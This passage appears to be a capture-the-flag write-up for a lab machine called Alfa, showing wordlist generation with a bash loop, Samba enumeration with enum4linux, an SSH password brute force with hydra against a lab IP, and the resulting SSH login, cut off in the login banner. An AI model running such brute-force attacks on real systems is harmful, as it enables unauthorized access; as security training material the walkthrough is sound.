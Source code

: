 We can use those specifications to create our dictionary of words, a oneliner bash script could do that for us.

```console
root@kali:~$ for x in {000..999}; do echo milo$x;done > thomas.pass
```

### Samba Enumeration

By Listing the Samba service, it was possible to verify that Thomas is a local user of the system.

```console
root@kali:~$ enum4linux -a 192.168.179.167
...
S-1-22-1-1000 Unix User\thomas (Local User) 
```

The most logical thing would be to brute force the SSH service. 

```console
root@kali:~$ hydra -l thomas -P thomas.pass ssh://192.168.179.167:65111
...
[65111][ssh] host: 192.168.179.167   login: thomas   password: milo666
1 of 1 target successfully completed, 1 valid password found
```

## Exploitation
### Access via SSH

As we can see above the password of Thomas was found and we accessed via SSH.

```console
root@kali:~$ ssh -l thomas 192.168.179.167 -p 65111
thomas@192.168.179.167's password:                                                                                                                                  
Linux Alfa 4.19.0-13-amd64 #1 SMP Debian 4.19.160-2 (2020-11-28) x86_64                                                                                             
                                                                                                                                                                    
####################################################################                                                                                                
#                  ,---------------------------,                   #                                                                                                
#                  |  /---------------------\  |                   #                                                                                                
#                  | |                       | |                   #                                                                                                
#                  | |         +----+        | |                   #                                                                                                
#                  | |         |ALFA|        | |                   #                                                                                                
#                  | |         +----+        | |                   #                                                                                                
#                  | |                       | |                   #                                                                                                
#                  |  \_____________________/  |                   #                                                                                                
#                  |___________________________|                   #                                                                                                
#                ,---\_____     []     _______/------,             #                                                                                                
#              /         /______________\           /|             #                                                                                                
#            /___________________________________ /  | ___         #                                                                                                
#            |                                   |   |    )        #                                                                                                
```